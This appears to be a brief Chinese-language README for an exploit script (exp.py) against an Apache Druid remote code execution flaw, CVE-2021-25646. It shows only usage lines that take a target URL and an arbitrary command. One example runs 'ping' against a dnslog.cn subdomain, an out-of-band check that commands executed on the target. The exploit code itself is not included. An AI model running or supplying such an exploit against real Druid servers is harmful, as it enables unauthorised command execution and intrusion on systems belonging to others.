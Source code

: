 # Apache Druid 远程代码执行 CVE-2021-25646

## 使用方法
```shell
python exp.py -u [--url] -c [--command]
python exp.py -u http://127.0.0.1:8888 -c "ping xxx.dnslog.cn"
```